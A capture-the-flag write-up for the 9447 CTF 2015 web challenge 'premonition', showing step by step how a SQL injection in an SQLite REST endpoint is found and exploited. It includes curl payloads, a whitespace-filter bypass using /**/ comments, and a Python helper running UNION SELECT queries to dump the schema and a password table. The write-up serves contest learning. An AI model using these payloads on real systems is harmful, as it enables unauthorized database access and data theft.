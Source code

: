 # 9447 CTF 2015 2015: premonition

**Category:** Web
**Points:** 140
**Solves:** 121
**Description:**

>  There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?
> 
> 
>  Find the page at <http://premonition-p8l05mpz.9447.plumbing:9447>


## Write-up

We got an angular.js app that fetches data via a REST API. We identified the following
valid URLs. 
```
curl "http://premonition-p8l05mpz.9447.plumbing:9447/
    /firstname" -d "firstname=X"
    /lastname" -d "lastname=X"
    /class" -d "class=X"
    /score" -d "score=0&ineq=>"
    /date_birth" -d "date_birth=0&ineq=>"
```
They all give back json data. To shorten the following curl commands:
```
url="http://premonition-p8l05mpz.9447.plumbing:9447/score"
```

We sent the following request, which returns us no results
```
$ curl "$url" -d "score=0&ineq=<"
[]
```
But if we put an extra `'` in there... something strange happens
```
$ curl "$url" -d  "score=0'&ineq=<"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"], ["Ingeborg", "Dunham", 93.0, "5D"], ["Layne", "Agrawal", 94.0, "5K"], ["Kai", "Nathanson", 94.0, "5A"], ["Catharine", "Mcnally", 92.0, "5J"], ["Jeromy", "Duncanson", 92.0, "5D"], ["Lewis", "Oglesbee", 93.0, "5K"], ["Terri", "Colombo", 94.0, "5A"], ["Geraldo", "Penson", 93.0, "5J"], ["Rachael", "Ackermann", 92.0, "5D"], ["Winford", "Hendley", 93.0, "5K"], ["Nella", "Avila", 95.0, "5A"], ["Albertine", "Walmsley", 91.0, "5J"], ["Tyson", "Jefferies", 93.0, "5D"], ["Beulah", "Kaba", 95.0, "5K"], ["Kendra", "Fettig", 94.0, "5A"], ["Kathie", "Bieker", 94.0, "5J"], ["Sharon", "Martelli", 93.0, "5D"], ["Eusebio", "Champagne", 92.0, "5K"], ["Roni", "Neuberger", 93.0, "5A"], ["Kristopher", "Haber", 92.0, "5J"], ["Rubin", "Puryear", 94.0, "5D"], ["Edwina", "June", 95.0, "5K"], ["Imogene", "Burmeister", 91.0, "5A"], ["Jonell", "Dark", 95.0, "5J"], ["Awilda", "Oler", 95.0, "5D"], ["Delbert", "Heminger", 92.0, "5K"], ["Marina", "Lombardi", 93.0, "5A"], ["Katharyn", "Veselka", 92.0, "5J"]]
```
OK so maybe we have some kind of injection vulnerability in the database backend.
Next we tried the `ineq` parameter:
```
$ curl "$url" -d "score=0'&ineq=x"
{"user": "sqliteadmin@localhost", "error": "near \"x\": syntax error"}
```
Oh how nice it seems to be sqlite in the background. And apparently the inequality
operator is just inserted into the raw statement. The score parameter on the other
hand seems to be bound using `?`, like in prepared statements.
```
$ curl "$url" -d "score=95&ineq=<>--x"
```
Gives us an error but 
```
$ curl "$url" -d "score=95&ineq=<>?--x"
```
works just fine. We can also see that whitespace are filtered. So we cannot do something like
```
$ curl "$url" -d "score=100&ineq=>? or 1=1--x"
```
which will result in an error. But then I remebered a neat trick about how to bypass this common
restriction using C-style comments:
```
$ curl "$url" -d "score=100&ineq=>?/**/or/**/1=1--x"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"],  ....
```
Yay we get a list of all students :D So we have a full blown SQL injection.
To make things easier I created a small python function for doing the injections:
```
def inject(x):
    x = x.replace(" ", "/**/")
    print("Injecting: '{}'".format(x))
    resp = requests.post("http://premonition-p8l05mpz.9447.plumbing:9447/score",
                         data={"score": 100, "ineq": x})
    return resp.content
```
Note that `score > 100` will not any results, so we won't get any results from the normal
part of the query.

First thing we managed to dump the schema of the sqlite database:
```
schema = inject(">? union select name, sql, 0, name from sqlite_master--x")
print("got schema:")
schema = json.loads(schema)
for x in schema:
    print("table", x[0], "created with:\n", x[1])
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/name,/**/sql,/**/0,/**/name/**/from/**/sqlite_master--x'
got schema:
table s3ekr17_passwords created with:
 CREATE TABLE s3ekr17_passwords(
	userid real,
	password text
)
table students created with:
 CREATE TABLE students(
	userid real,
	firstname text,
	lastname text,
	score real,
	teacher real,
	class text,
	date_birth date,
	date_death date
)
```

So the flag is probably in the `s3ekr17_passwords` table. We can just get the contents using
a union select. Turns out each of the passwords of the users was a part of the flag and the
userid was the position of the character. So we just appended an `order by` and joined the
flag by parsing the json output.
```
x = inject(">? union select password, password, userid, password from s3ekr17_passwords order by userid--x")
print(x)
data = json.loads(x)
flag = "".join(x[0] for x in data)
print("the flag is:")
print(flag)
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/password,/**/password,/**/userid,/**/password/**/from/**/s3ekr17_passwords/**/order/**/by/**/userid--x'
[["9", "9", 0.0, "9"], ["4", "4", 1.0, "4"], ["4", "4", 2.0, "4"], ["7", "7", 3.0, "7"], ["{", "{", 4.0, "{"], ["u", "u", 5.0, "u"], ["S", "S", 6.0, "S"], ["e", "e", 7.0, "e"], ["r", "r", 8.0, "r"], ["A", "A", 9.0, "A"], ["g", "g", 10.0, "g"], ["e", "e", 11.0, "e"], ["n", "n", 12.0, "n"], ["T", "T", 13.0, "T"], ["s", "s", 14.0, "s"], ["_", "_", 15.0, "_"], ["a", "a", 16.0, "a"], ["N", "N", 17.0, "N"], ["d", "d", 18.0, "d"], ["_", "_", 19.0, "_"], ["s", "s", 20.0, "s"], ["p", "p", 21.0, "p"], ["a", "a", 22.0, "a"], ["C", "C", 23.0, "C"], ["e", "e", 24.0, "e"], ["s", "s", 25.0, "s"], ["_", "_", 26.0, "_"], ["a", "a", 27.0, "a"], ["R", "R", 28.0, "R"], ["e", "e", 29.0, "e"], ["_", "_", 30.0, "_"], ["p", "p", 31.0, "p"], ["e", "e", 32.0, "e"], ["a", "a", 33.0, "a"], ["s", "s", 34.0, "s"], ["A", "A", 35.0, "A"], ["n", "n", 36.0, "n"], ["t", "t", 37.0, "t"], ["_", "_", 38.0, "_"], ["R", "R", 39.0, "R"], ["a", "a", 40.0, "a"], ["c", "c", 41.0, "c"], ["E", "E", 42.0, "E"], ["s", "s", 43.0, "s"], ["}", "}", 44.0, "}"]]

the flag is:
9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}
````

## Other write-ups and resources

* none yet
